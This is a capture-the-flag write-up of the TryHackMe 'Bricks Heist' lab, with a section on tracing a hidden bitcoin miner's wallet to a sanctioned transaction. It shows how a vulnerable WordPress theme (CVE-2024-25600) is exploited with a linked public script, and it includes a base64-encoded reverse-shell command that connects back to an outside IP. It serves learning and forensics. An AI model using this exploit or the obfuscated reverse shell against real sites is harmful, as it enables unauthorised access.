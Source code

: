 ```yaml
---
title: 'TryHack3M: Bricks Heist'
description: 'Exploiting Wordpress v1.9.5 (CVE-2024-25600) and blockchain forensics'
pubDate: 2024-12-19
category: 'tryhackme'
tags: ['blockchain', 'mining']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/0a46e92e8a9255f7dde294569e05dae1.png'
---
```


Looking at the website we quickly find out that its a Wordpress site.

When running `wp-scan` we see its using an old version.

```bash
wpscan --url https://bricks.thm -e ap --disable-tls-checks
...[snip]...
[+] WordPress theme in use: bricks
 | Location: https://bricks.thm/wp-content/themes/bricks/
...[snip]...
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'
```

Looking for an exploit for this particular version we quickly find an RCE: https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/refs/heads/main/CVE-2024-25600.py

When running the exploit we get a shell:

```bash
python CVE-2024-25600.py -u https://bricks.thm
...[snip]...
[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

Lets upgrade to a regular reverse shell:

```bash
Shell> echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMS41MS4yNC80NDQ0IDA+JjE= | base64 -d | bash
```

Looking at the processes on the system we find something that stands out:
```bash
systemctl list-units --type=service --state=running
  UNIT                                           LOAD   ACTIVE SUB     DESCRIPTION                              >
  accounts-daemon.service                        loaded active running Accounts Service                         >
  acpid.service                                  loaded active running ACPI event daemon
...[snip]...
  ubuntu.service                                 loaded active running TRYHACK3M
```

Lets explore the `ubuntu.service` service:

```bash
systemctl -l status ubuntu.service
- ubuntu.service - TRYHACK3M
     Loaded: loaded (/etc/systemd/system/ubuntu.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2024-12-19 09:21:26 UTC; 2min 16s ago
   Main PID: 2715 (nm-inet-dialog)
      Tasks: 2 (limit: 4671)
     Memory: 30.6M
     CGroup: /system.slice/ubuntu.service
             ├─2715 /lib/NetworkManager/nm-inet-dialog
             └─2716 /lib/NetworkManager/nm-inet-dialog
```

Checking this config:

```bash
systemctl cat ubuntu.service
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Checking the NetworkManager config:

```bash
cat /lib/NetworkManager/inet.conf
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:46:04,743 [*] confbak: Ready!
2024-04-08 10:46:04,743 [*] Status: Mining!
2024-04-08 10:46:08,745 [*] Miner()
2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
2024-04-08 10:46:08,745 [*] Status: Mining!
2024-04-08 10:46:10,747 [*] Miner()
...[snip]...
```

When putting that ID in Cyberchef and trying the magic method it converts it to: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`.

It looks like its repeating at some point and since the questions are about miners and bitcoin we can assume its related to a bitcoin address.
Splitting it up the first part is this wallet: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

After a lot of googling we find:
https://blockchair.com/bitcoin/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa


On the last received transaction we see there is 1 privacy issue:
https://blockchair.com/bitcoin/transaction/50a89a628a6620216dca19f1221c138982601810fd60677ac7612a01999ae028

When searching for the sender of this transaction (`bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r`) we find a security report: https://ofac.treasury.gov/recent-actions/20240220

This seems to be used but `LockBit` Ransomware group.
